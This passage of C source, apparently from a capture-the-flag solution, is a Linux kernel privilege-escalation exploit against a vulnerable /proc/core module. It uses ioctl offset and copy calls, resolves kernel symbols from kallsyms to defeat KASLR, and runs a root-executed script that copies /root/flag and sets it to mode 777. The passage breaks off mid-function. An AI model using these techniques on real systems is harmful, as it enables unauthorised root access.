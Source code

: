 ```c
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}

void getFlag() {
    puts("\033[33m\033[01m[+] Ready to get flag!!!\033[0m");
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/nova");
    system("chmod +x /tmp/nova");

    puts("\033[33m\033[01m[+] Run /tmp/nova\033[0m");
    system("/tmp/nova");

    system("cat /tmp/flag");
    exit(0);
}

int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {

        if (!swapgs_restore_regs_and_return_to_usermode && strcmp(name, "swapgs_restore_regs_and_return_to_usermode") == 0) {
            swapgs_restore_regs_and_return_to_usermode = addr;
            printf("\033[33m\033[1m[√] Found swapgs_restore_regs_and_return_to_usermode: %lx\033[0m\n", swapgs_restore_regs_and_return_to_usermode);
            break;
        }

    }

    offset = swapgs_restore_regs_and_return_to_usermode - 0xa008da - 0xffffffff81000000;
```